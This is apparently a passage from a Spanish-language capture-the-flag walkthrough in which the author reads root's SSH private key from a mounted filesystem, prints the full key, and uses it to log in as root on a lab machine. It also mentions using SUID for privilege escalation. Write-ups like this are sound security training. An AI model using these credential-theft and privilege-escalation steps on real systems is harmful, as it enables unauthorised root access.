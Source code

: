 Obtenemos la `id_rsa` del usuario `root`, si no estuviera la `id_rsa` podríamos crearla o podríamos `asignarle` privilegios `SUID` para convertirnos en `root` con el usuario `ash`

```
/mnt/root/root/.ssh # cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

Esta `id_rsa` la guardamos en un archivo en nuestro equipo y le asignamos el `privilegio 600` con `chmod`, una vez hecho eso nos podemos conectar a la máquina víctima como usuario `root`

```
# ssh -i id_rsa root@10.129.182.100  
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-31-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 12 Aug 2024 08:02:43 PM UTC

  System load:             0.0
  Usage of /:              49.9% of 6.82GB
  Memory usage:            39%
  Swap usage:              0%
  Processes:               313
  Users logged in:         0
  IPv4 address for ens160: 10.129.182.100
```